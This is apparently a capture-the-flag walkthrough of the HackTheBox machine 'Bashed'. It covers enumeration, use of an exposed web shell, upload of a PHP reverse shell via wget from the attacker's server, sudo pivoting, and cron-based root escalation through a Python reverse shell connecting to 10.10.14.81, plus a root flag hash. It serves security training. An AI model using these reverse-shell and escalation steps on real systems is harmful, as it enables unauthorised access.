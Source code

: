```yaml
---
cover: ../../../.gitbook/assets/Bashed.png
coverY: 177.62133333333333
layout:
  cover:
    visible: true
    size: hero
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Bashed

Add IP address to local DNS

```sh
[attacker] echo '10.129.235.166 bashed.htb'|sudo tee -a /etc/hosts
```

Nmap scan

```sh
[user@attacker] nmap bashed.htb
```

Open port 80/TCP with HTTP service.\
WFuzz web enumeration

```sh
[user@attacker] wfuzz -u http://bashed.htb/FUZZ -w /usr/share/wfuzz/wordlist/general/common.txt --hc 404
```

Available paths :

* http://bashed.htb/css
* http://bashed.htb/dev
* http://bashed.htb/images
* http://bashed.htb/js
* http://bashed.htb/php
* http://bashed.htb/uploads

I find a web shell on http://bashed.htb/php/dev/phpbash.php\
Import php reverse shell file.

```sh
[user@attacker] cp /usr/share/webshells/php/php-reverse-shell.php payload.php
```

Edit the `payload.php` with attacker host and netcat post listener.

<figure><img src="../../../.gitbook/assets/bashed-php-reverse-shell-script.png" alt=""><figcaption></figcaption></figure>

On the attacker, start a Python web server

```sh
[user@attacker] python3 -m http.server
```

On the target, download the file `payload.php`

```sh
[www-data@target] wget -O payload.php http://10.10.14.81:8000/payload.php
```

From the attacker, start the netcat listener

```sh
[user@attacker] nc -lnvp 1234
```

Then go to the website and execute http://bashed.htb/uploads/payload.php\
Got the reverse shell on target.\
List sudo privileges.

```sh
[www-data@target] sudo -l
```

`www-data` can run all sudo command as `scriptmanager`

```sh
[www-data@target] sudo -u scriptmanager '/bin/bash'
[scriptmanager@target] cat /home/arrexel/user.txt
```

The file `test.txt` has a cron because somethin is updating its timestamp every minute.

<figure><img src="../../../.gitbook/assets/bashed-cron-52.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/bashed-cron-53.png" alt=""><figcaption></figcaption></figure>

Code inside of the file `test.py`

```py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

Text inside of the file `test.txt`

```
testing 123!
```

Thus, only root can write in `test.txt` and it has root cron which executes `test.py` every minute.\
Add a new python file in the same directory `/scripts/write.py` which contains the following code

```sh
[scriptmanager@target] echo 'import sys,socket,os,pty
s=socket.socket()
s.connect(("10.10.14.81", 1235))
[os.dup2(s.fileno(),fd) for fd in(0,1,2)]
pty.spawn("sh")'|tee /scripts/write.py
```

Open the netcat listener

```sh
[user@attacker] nc -lnvp 1235
```

After 1 minut, it opens a root shell

```sh
[root@target] cat /root/root.txt	# 204827fc65f65b3c967b7c38298d6382
```
